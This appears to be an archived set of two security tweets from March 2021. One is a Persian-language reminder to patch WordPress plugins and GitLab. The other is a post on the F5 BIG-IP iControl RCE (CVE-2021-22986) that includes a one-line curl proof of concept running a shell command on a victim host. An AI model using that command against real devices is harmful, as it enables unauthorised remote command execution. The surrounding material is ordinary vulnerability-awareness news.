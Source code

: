 
# vahidnameni
**https://twitter.com/vahidnameni/status/1372456904082006021 _at 2021-03-18 07:56:39_**
<blockquote>
آخر سال هست و تقریبا ما ایرانی ها در تعطیلات هستیم. ما تعطیلیم ولی بقیه جهان نه!
اگر  WP Super Cache و یا Elementor Pro روی وردپرس دارید به آخرین نسخه ارتقا بدید.
از GitLab هاتون هم فراموش نکنید، چون آسیب پذیری با امتیاز 9.9 داره!
https://t.co/CjAyPJPw3F

https://t.co/m49JIG8adS
</blockquote>

* https://about.gitlab.com/releases/2021/03/17/security-release-gitlab-13-9-4-released/
* https://thehackernews.com/2021/03/flaws-in-two-popular-wordpress-plugins.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1372392693989445635 _at 2021-03-18 03:41:30_**
<blockquote>
F5 BIG-IP iControl RCE (CVE-2021-22986)

execute arbitrary system commands
create or delete files
disable services

PoC #1
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'

https://t.co/6i3IYFeHt5 https://t.co/yzD1k3ClTF
</blockquote>

* https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Ewu3HGzVkAYcBRT.png" alt="http://pbs.twimg.com/media/Ewu3HGzVkAYcBRT.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>319</code></td>
<td>Favorites: <code>648</code></td>
</tr></table>

---